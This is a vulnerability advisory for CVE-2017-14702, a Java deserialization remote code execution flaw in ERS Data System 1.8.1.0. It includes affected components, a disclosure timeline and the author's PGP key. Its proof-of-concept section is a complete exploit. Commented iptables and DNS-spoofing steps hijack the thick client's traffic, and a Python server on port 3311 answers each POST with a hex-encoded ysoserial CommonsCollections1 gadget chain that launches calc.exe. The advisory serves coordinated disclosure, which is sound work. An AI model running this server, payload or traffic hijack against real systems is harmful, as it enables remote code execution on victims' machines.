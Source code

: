 # CVE-2017-14702

### Description
ERS Data System 1.8.1.0 allows remote attackers to execute arbitrary code, related to the use of the com.branaghgroup.ecers.update.UpdateRequest" objects deserialization.

### VulnerabilityType
Deserialization of Untrusted Data (CWE-502)

### Vendor of Product
Environment Rating Scale (ERS), Branagh Information Group, Inc.

### Affected Product Code Base
ERS Data System - 1.8.1.0

### Affected Component
| Component | Hash |
| :-------------------------------- |:--------------------------------|
| ecers_3.03.jar	| 1b1758051d501fe610148e8b19b96825 |
| commons-collections_3.2.jar	| 7b9216b608d550787bdf43a63d88bf3b |
| ecers_3.65.jar	| b80fc66fa94b6dafa34a024577f12671 |

### Attack Type
Remote

### Impact Code execution
true

### Attack Vectors
Attackers can exploit this vulnerability by responding to the ERS thick clients HTTP requests with malicious serialized Java objects. The vulnerability can be triggered during the authentication of the thick client, or subsequent requests to the ERS web service.

### Reference
[Product Website](http://www.ersdata.com) <br />
[Product Download](http://www.ersdata.com/downloads/ErsSetup.exe)
 
### Discoverer
West Shepherd <br />
wshepherd0010[at]gmail.com

### Advisory ID
CVE-2017-14702.

### Report Timeline
| Date    						| Action          				   |
| :-------------------------------- |:--------------------------------|
| 9/21/2017      				|  Submitted CVE ID request to MITRE via web form, received email confirming submission. |
| 9/22/2017      				|  Received response from MITRE CVE assignment team, CVE ID reserved. |
| 9/25/2017      				|  Contacted vendor via contact form on website, no reply. |
| 9/27/2017      				|  Contacted vendor CEO via email offering to work with their development team to remediate the issue at no cost, no reply. |
| 9/29/2017      				|  Released advisory publicly without exploit code to allow vendor time to fix the issue. |
| 10/3/2017      				|  No contact from vendor. Released exploit code to validate vulnerability. |
| 1/4/2018      				|  Coordinated with vendor for follow up assessment on updated code. |
| 1/17/2018      				|  Contacted vendor via email with report on findings. |

### PoC
Exploit code publication pending on exploit-db. <br />

```py
# Exploit Title: ERS Data System 1.8.1 Deserialize Vulnerability
# Google Dork: N/A
# Date: 9/21/2017
# Exploit Author: West Shepherd
# Vendor Homepage: http://www.ersdata.com
# Software Link: www.ersdata.com/downloads/ErsSetup.exe
# Version: 1.8.1.0
# Tested on: Windows 7 x86
# CVE : CVE-2017-14702

# Description:
# ERS Data System 1.8.1.0 allows remote attackers to execute arbitrary code, related to the use of 
# com.branaghgroup.ecers.update.UpdateRequest deserialization.

# Exploitaiton:
# The ERS Data System thick client connects to the www.ersdata.com API via an unencrypted HTTP connection on TCP port 3311. 
# To redirect requests from the thick client to the attacking machine, enable packet forwarding:

#!/bin/bash
#echo 1 > /proc/sys/net/ipv4/ip_forward
#iptables -F INPUT
#iptables -F FORWARD
#iptables -F OUTPUT
#iptables -F -t nat
#iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
#iptables -t nat -A POSTROUTING -s 192.168.85.0/24 ! -d 192.168.85.0/24 -j MASQUERADE
#iptables -P INPUT ACCEPT
#iptables -P FORWARD ACCEPT
#iptables -P OUTPUT ACCEPT

# Then poison DNS requests to the www.ersdata.com domain:

# DNS Spoof https://github.com/devleoper/arp-dns-spoof
# root@kali:/usr/share/arp-dns-spoof# cat dns_packet_spoof.py | egrep "domain =|localIP ="
# domain = 'www.ersdata.com' # domain to be spoofed
# localIP = '192.168.85.131' # IP address for poisoned hosts.

# Run the request handler on the attacking machine, which will answer all requests with malicous serialized gadgets. For example:

#!/usr/bin/python
import SocketServer, sys
from SimpleHTTPServer import SimpleHTTPRequestHandler

# POST Handler
class HTTPHandler(SimpleHTTPRequestHandler):		
	def __init__(self,req,client_addr,server):
		SimpleHTTPRequestHandler.__init__(self,req,client_addr,server)	
	def do_POST(self):
		# java -jar ysoserial-master-v0.0.5-g1f2e7bf-14.jar CommonsCollections1 calc.exe > calc.bin
		# python -c 'import binascii, re;print "\\x"+"\\x".join(re.findall("..",binascii.hexlify(open("calc.bin","rb").read())))'
		response = (	"\xac\xed\x00\x05\x73\x72\x00\x32\x73\x75\x6e\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x61\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x2e\x41\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x55\xca\xf5\x0f\x15\xcb\x7e\xa5\x02\x00\x02\x4c\x00\x0c\x6d\x65\x6d\x62\x65\x72\x56\x61\x6c\x75\x65\x73\x74\x00\x0f\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4d\x61\x70\x3b\x4c\x00\x04\x74\x79\x70\x65\x74\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x73\x7d\x00\x00\x00\x01\x00\x0d\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4d\x61\x70\x78\x72\x00\x17\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x50\x72\x6f\x78\x79\xe1\x27\xda\x20\xcc\x10\x43\xcb\x02\x00\x01\x4c\x00\x01\x68\x74\x00\x25\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x78\x70\x73\x71\x00\x7e\x00\x00\x73\x72\x00\x2a\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x6d\x61\x70\x2e\x4c\x61\x7a\x79\x4d\x61\x70\x6e\xe5\x94\x82\x9e\x79\x10\x94\x03\x00\x01\x4c\x00\x07\x66\x61\x63\x74\x6f\x72\x79\x74\x00\x2c\x4c\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x63\x6f\x6d\x6d\x6f\x6e\x73\x2f\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2f\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x3b\x78\x70\x73\x72\x00\x3a\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x66\x75\x6e\x63\x74\x6f\x72\x73\x2e\x43\x68\x61\x69\x6e\x65\x64\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x30\xc7\x97\xec\x28\x7a\x97\x04\x02\x00\x01\x5b\x00\x0d\x69\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x73\x74\x00\x2d\x5b\x4c\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x63\x6f\x6d\x6d\x6f\x6e\x73\x2f\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2f\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x3b\x78\x70\x75\x72\x00\x2d\x5b\x4c\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x3b\xbd\x56\x2a\xf1\xd8\x34\x18\x99\x02\x00\x00\x78\x70\x00\x00\x00\x05\x73\x72\x00\x3b\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x66\x75\x6e\x63\x74\x6f\x72\x73\x2e\x43\x6f\x6e\x73\x74\x61\x6e\x74\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x58\x76\x90\x11\x41\x02\xb1\x94\x02\x00\x01\x4c\x00\x09\x69\x43\x6f\x6e\x73\x74\x61\x6e\x74\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x78\x70\x76\x72\x00\x11\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x52\x75\x6e\x74\x69\x6d\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x73\x72\x00\x3a\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x66\x75\x6e\x63\x74\x6f\x72\x73\x2e\x49\x6e\x76\x6f\x6b\x65\x72\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x87\xe8\xff\x6b\x7b\x7c\xce\x38\x02\x00\x03\x5b\x00\x05\x69\x41\x72\x67\x73\x74\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x4c\x00\x0b\x69\x4d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x0b\x69\x50\x61\x72\x61\x6d\x54\x79\x70\x65\x73\x74\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x3b\x90\xce\x58\x9f\x10\x73\x29\x6c\x02\x00\x00\x78\x70\x00\x00\x00\x02\x74\x00\x0a\x67\x65\x74\x52\x75\x6e\x74\x69\x6d\x65\x75\x72\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x43\x6c\x61\x73\x73\x3b\xab\x16\xd7\xae\xcb\xcd\x5a\x99\x02\x00\x00\x78\x70\x00\x00\x00\x00\x74\x00\x09\x67\x65\x74\x4d\x65\x74\x68\x6f\x64\x75\x71\x00\x7e\x00\x1e\x00\x00\x00\x02\x76\x72\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x72\x69\x6e\x67\xa0\xf0\xa4\x38\x7a\x3b\xb3\x42\x02\x00\x00\x78\x70\x76\x71\x00\x7e\x00\x1e\x73\x71\x00\x7e\x00\x16\x75\x71\x00\x7e\x00\x1b\x00\x00\x00\x02\x70\x75\x71\x00\x7e\x00\x1b\x00\x00\x00\x00\x74\x00\x06\x69\x6e\x76\x6f\x6b\x65\x75\x71\x00\x7e\x00\x1e\x00\x00\x00\x02\x76\x72\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x76\x71\x00\x7e\x00\x1b\x73\x71\x00\x7e\x00\x16\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x72\x69\x6e\x67\x3b\xad\xd2\x56\xe7\xe9\x1d\x7b\x47\x02\x00\x00\x78\x70\x00\x00\x00\x01\x74\x00\x08\x63\x61\x6c\x63\x2e\x65\x78\x65\x74\x00\x04\x65\x78\x65\x63\x75\x71\x00\x7e\x00\x1e\x00\x00\x00\x01\x71\x00\x7e\x00\x23\x73\x71\x00\x7e\x00\x11\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x49\x6e\x74\x65\x67\x65\x72\x12\xe2\xa0\xa4\xf7\x81\x87\x38\x02\x00\x01\x49\x00\x05\x76\x61\x6c\x75\x65\x78\x72\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4e\x75\x6d\x62\x65\x72\x86\xac\x95\x1d\x0b\x94\xe0\x8b\x02\x00\x00\x78\x70\x00\x00\x00\x01\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x00\x77\x08\x00\x00\x00\x10\x00\x00\x00\x00\x78\x78\x76\x72\x00\x12\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x76\x65\x72\x72\x69\x64\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x71\x00\x7e\x00\x3a"		
		)
		self.send_response(200)
		self.send_header("Content-type", "text/html")
		self.send_header("Content-length", len(response))
		self.end_headers()
		self.wfile.write(response)		
try:		
	httpd = SocketServer.TCPServer(("", 3311), HTTPHandler)
	print "Serving at port: ", 3311
	httpd.serve_forever()	
except:
	print "Exiting..."
```

### PGP 
Contact West Shepherd wshepherd0010[at]gmail.com
```txt
-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: CryptUp 4.4.6 Gmail Encryption https://cryptup.org
Comment: Seamlessly send, receive and search encrypted email

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
6/I9
=vCq5
-----END PGP PUBLIC KEY BLOCK-----


```
